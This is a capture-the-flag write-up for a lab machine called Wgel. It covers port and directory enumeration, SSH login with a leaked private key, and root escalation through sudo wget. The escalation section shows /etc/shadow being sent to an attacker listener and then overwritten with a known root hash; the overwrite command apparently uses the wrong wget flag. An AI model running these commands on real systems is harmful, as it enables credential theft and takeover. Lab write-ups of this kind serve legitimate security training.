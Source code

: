 # Wgel

## Nmap

```
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ sudo nmap -sS -p- 10.10.141.131            
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 12:01 EST
Nmap scan report for 10.10.141.131
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 82.63 seconds
                                                                            
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ sudo nmap -sSCV -p 22,80 10.10.141.131                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 12:03 EST
Nmap scan report for 10.10.141.131
Host is up (0.055s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.09 seconds
```

## Website

<img src="images/web.png">

<img src="images/comment.png">

## Gobuster - Directory enumeration


```
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ gobuster dir -u http://10.10.141.131 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.131
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.141.131/sitemap/]                                                                               
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## Website - sitemap

<img src="images/techStack.png">


There is a couple of pages, one has a form that will be sent in a get request

<img src="images/contactForm.png">

## Gobuster - Directory enumeration again

```
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ gobuster dir -u http://10.10.141.131/sitemap -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.141.131/sitemap
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.141.131/sitemap/.ssh/]                                                                          
/css                  (Status: 301) [Size: 320] [--> http://10.10.141.131/sitemap/css/]                                                                           
/fonts                (Status: 301) [Size: 322] [--> http://10.10.141.131/sitemap/fonts/]                                                                         
/images               (Status: 301) [Size: 323] [--> http://10.10.141.131/sitemap/images/]                                                                        
/index.html           (Status: 200) [Size: 21080]
/js                   (Status: 301) [Size: 319] [--> http://10.10.141.131/sitemap/js/]                                                                            
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

We can see a .ssh directory

<img src="images/ssh.png">


We can save this private rsa key. With this key plus the username from the html comment we might be able to log in to ssh

## ssh

```
┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ chmod 600 id_rsa_wgel 

┌──(kali㉿kali)-[~/Desktop/Wgel]
└─$ ssh -i id_rsa_wgel jessie@10.10.141.131

```
```
jessie@CorpOne:~/Documents$ ll
total 12
drwxr-xr-x  2 jessie jessie 4096 oct 26  2019 ./
drwxr-xr-x 17 jessie jessie 4096 oct 26  2019 ../
-rw-rw-r--  1 jessie jessie   33 oct 26  2019 user_flag.txt
jessie@CorpOne:~/Documents$ cat user_flag.txt 

```

## Priv Esc

```
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

<img src="images/gtfoBins.png">

This version will not work with this exploit. 
```wget: unrecognized option '--use-askpass=/tmp/tmp.2B5sh2tK6Z'```

We can still get a shell from WGET tho. We can alter any file by making wget write to it

### Escalation with wget by changing /etc/shadow

1. Get the content of /etc/shadow with wget and netcat

    On attacker machine

    ```
    ┌──(kali㉿kali)-[~]
    └─$ nc -lvnp 1234
    listening on [any] 1234 ...
    ```

    On the victim machine

    ```
    jessie@CorpOne:~$ sudo /usr/bin/wget --post-file=/etc/shadow 10.8.191.218:1234
    --2023-11-11 19:46:32--  http://10.8.191.218:1234/
    Connecting to 10.8.191.218:1234... connected.
    HTTP request sent, awaiting response... 200 No headers, assuming HTTP/0.9
    Length: unspecified
    Saving to: ‘index.html’

    index.html               [  <=>               ]       1  --.-KB/s    in 1,0s    

    2023-11-11 19:46:37 (1,05 B/s) - ‘index.html’ saved [1]
    ```

2. Change the content of the shadows file and add you hashed password to the file. 

    ```
    ┌──(kali㉿kali)-[~/Desktop/Wgel]
    └─$ openssl passwd -6 -salt 'mySalt' 'root'  
    $6$mySalt$4CIAkJdWazIaMpyMJTtPZrZtqdkECRZFbGN48NJRinfZgRkSWaiF6yIvmxnGOavEtieUxc7ZlDRfAcbn9LYHh0
    ```

    ```
    root:$6$mySalt$4CIAkJdWazIaMpyMJTtPZrZtqdkECRZFbGN48NJRinfZgRkSWaiF6yIvmxnGOavEtieUxc7ZlDRfAcbn9LYHh0:18195:0:99999:7:::
    daemon:*:17953:0:99999:7:::
    bin:*:17953:0:99999:7:::
    sys:*:17953:0:99999:7:::
    (...)
    ```

3. Create an http server Send the file to the machine and write to the /etc/shadow

    On the attacking machine

    ```                                                          
    ┌──(kali㉿kali)-[~/Desktop/Wgel]
    └─$ python3 -m http.server 1234              
    Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
    10.10.141.131 - - [11/Nov/2023 12:55:34] "GET /wget_shadow HTTP/1.1" 200 -
    ```

    On the victim machine
    ```
    jessie@CorpOne:~$ sudo wget http://10.8.191.218:1234/wget_shadow -o /etc/shadow
    ```

    Switch into root with the password you just intruduced

    ```
    jessie@CorpOne:~$ su root
    Password: 
    root@CorpOne:/home/jessie# 
    ```